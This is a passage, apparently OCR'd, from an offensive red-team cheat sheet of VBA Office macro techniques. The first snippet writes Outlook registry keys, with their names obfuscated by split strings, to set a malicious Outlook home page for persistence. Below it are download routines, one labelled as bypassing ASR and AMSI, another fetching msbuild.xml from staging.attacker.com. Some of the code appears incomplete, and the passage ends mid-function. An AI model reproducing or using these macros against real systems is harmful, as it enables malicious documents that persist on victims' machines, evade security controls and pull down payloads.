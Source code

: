 		        If InStr(1, exists, "Outlook", vbTextCompare) > 0 Then
		            after1 = Replace(".0\Outlook\WebView\Cale|ndar\URL", "|", "")
		            after2 = Replace(".0\Outlook\Security\Enable|RoamingFolderHomepages", "|", "")
		            key1 = before & x & after1
		            key2 = before & x & after2
		            RegKeySave CStr(key1), domain, "REG_SZ"
		            RegKeySave CStr(key2), 1, "REG_DWORD"
		        End If
		    Next
		End Function

		Sub Macro2()
		    setHomepage
		End Sub
		```

* File Download
	* Overview
		* Always consider pointing to webdav share instead of downloading
	* XMLHTTP (Bypass ASR & AMSI by using fake name)
		* References
			* [https://blog.avira.com/new-malware-in-old-excel-skins/](https://blog.avira.com/new-malware-in-old-excel-skins/)
		* Code

			```
			Sub Download(muURL As String, realPath As String)
			    Dim downloadPath As String
			    downloadPath = Environ("TEMP") & "\\" & "acqeolw.txt"
			    Set WinHttpReq = CreateObject("MSXML2.ServerXMLHTTP.6.0")
			    WinHttpReq.Send
			    If WinHttpReq.Status = 200 Then
			        Set oStream = CreateObject("ADODB.Stream")
			        oStream.SaveToFile downloadPath, 2
			        oStream.Close
			        renameCmd = "C:\windows\system32\cmd.exe /C move " & downloadPath & " " & realPath
			        RDS_DataSpaceExec renameCmd
			        Application.Wait Now + TimeValue("0:00:01")
			    End If
			End Sub
			```
	* XMLHTTP
		* Code
			```
			Sub DownloadFile()

			    Dim myURL As String
			    myURL = "https://staging.attacker.com/msbuild.xml"
			    
			    Dim WinHttpReq As Object
			    Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
			    WinHttpReq.Open "GET", myURL, False
			    WinHttpReq.send
			    